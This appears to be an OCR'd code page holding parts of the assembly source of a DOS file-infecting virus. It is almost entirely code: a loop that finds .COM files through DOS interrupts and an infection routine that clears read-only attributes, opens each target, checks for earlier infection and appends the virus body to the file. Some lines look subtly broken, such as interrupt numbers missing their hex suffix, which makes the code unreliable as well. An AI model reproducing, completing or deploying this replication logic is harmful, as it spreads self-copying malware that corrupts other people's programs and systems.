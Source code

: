 ## Infection Loop

```assembly
verder:         mov     ax,[di]                 ;update generations
                xchg    ah,al
                mov     al,1
                mov     [di],ax

                lea     dx,[di+33d]             ;find first COM-file
                xor     cx,cx
                mov     ah,4Eh
infloop:        int     21
                pop     dx
                jc      stop
```
- Searches for .COM files to infect and updates the generation.

## File Infection

```assembly
                push    dx

                xor     cx,cx                   ;clear read-only attribute
                mov     ax,4301
                int     21
                jc      return1

                mov     ax,3D02h                ;open the file
                int     21
                jc      return1
                xchg    bx,ax

                mov     ax,5700h                ;get file date & time
                int     21
                push    cx
                push    dx

                mov     cx,4                    ;read begin of file
                mov     dx,si
                mov     ah,3fh
                int     21

                cmp     byte ptr [si],4Dh       ;already infected or an EXE?
                je      return2
                cmp     byte ptr [si],5Ah       ;or a weird EXE?
                je      return2

                mov     al,2                    ;go to end of file
                call    seek

                cmp     ax,MAXTARGET            ;check length of file
                jnb     return2
                cmp     ax,MINTARGET
                jbe     return2

                push    ax
                mov     cx,FILELEN              ;write program to end of file
                mov     ah,40h
                int     21
                cmp     ax,cx                   ;are all bytes written?
                pop     ax
                jnz     return2

```